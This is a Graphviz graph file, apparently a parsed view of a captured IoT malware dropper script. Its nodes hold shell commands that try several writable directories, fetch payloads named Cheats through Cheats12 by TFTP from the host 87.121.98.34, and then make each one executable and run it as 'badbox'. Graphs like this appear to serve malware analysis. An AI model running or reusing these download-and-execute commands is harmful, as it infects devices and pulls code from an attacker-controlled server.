 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 14 [label="||,"];
14 [label="tftp -r Cheats -g 87.121.98.34 "];
14 -> 16 [label=";,"];
16 [label="cat Cheats badbox "];
16 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 34 [label="||,"];
34 [label="tftp -r Cheats2 -g 87.121.98.34 "];
34 -> 36 [label=";,"];
36 [label="cat Cheats2 badbox "];
36 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 54 [label="||,"];
54 [label="tftp -r Cheats3 -g 87.121.98.34 "];
54 -> 56 [label=";,"];
56 [label="cat Cheats3 badbox "];
56 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 74 [label="||,"];
74 [label="tftp -r Cheats4 -g 87.121.98.34 "];
74 -> 76 [label=";,"];
76 [label="cat Cheats4 badbox "];
76 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 94 [label="||,"];
94 [label="tftp -r Cheats5 -g 87.121.98.34 "];
94 -> 96 [label=";,"];
96 [label="cat Cheats5 badbox "];
96 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 114 [label="||,"];
114 [label="tftp -r Cheats6 -g 87.121.98.34 "];
114 -> 116 [label=";,"];
116 [label="cat Cheats6 badbox "];
116 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 134 [label="||,"];
134 [label="tftp -r Cheats7 -g 87.121.98.34 "];
134 -> 136 [label=";,"];
136 [label="cat Cheats7 badbox "];
136 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 154 [label="||,"];
154 [label="tftp -r Cheats8 -g 87.121.98.34 "];
154 -> 156 [label=";,"];
156 [label="cat Cheats8 badbox "];
156 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 174 [label="||,"];
174 [label="tftp -r Cheats9 -g 87.121.98.34 "];
174 -> 176 [label=";,"];
176 [label="cat Cheats9 badbox "];
176 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 194 [label="||,"];
194 [label="tftp -r Cheats10 -g 87.121.98.34 "];
194 -> 196 [label=";,"];
196 [label="cat Cheats10 badbox "];
196 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 214 [label="||,"];
214 [label="tftp -r Cheats11 -g 87.121.98.34 "];
214 -> 216 [label=";,"];
216 [label="cat Cheats11 badbox "];
216 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
241 [label="./badbox "];
241 -> 224 [label=";,"];
224 [label="cd /tmp "];
224 -> 224
226 [label="cd /var/run "];
226 -> 228 [label="||,"];
228 [label="cd /mnt "];
228 -> 230 [label="||,"];
230 [label="cd /root "];
230 -> 232 [label="||,"];
232 [label="cd / "];
232 -> 234 [label="||,"];
234 [label="tftp -r Cheats12 -g 87.121.98.34 "];
234 -> 236 [label=";,"];
236 [label="cat Cheats12 badbox "];
236 -> 238 [label=";,"];
238 [label="badbox "];
238 -> 238
240 [label="chmod +x * "];
240 -> 241 [label=";,"];
}
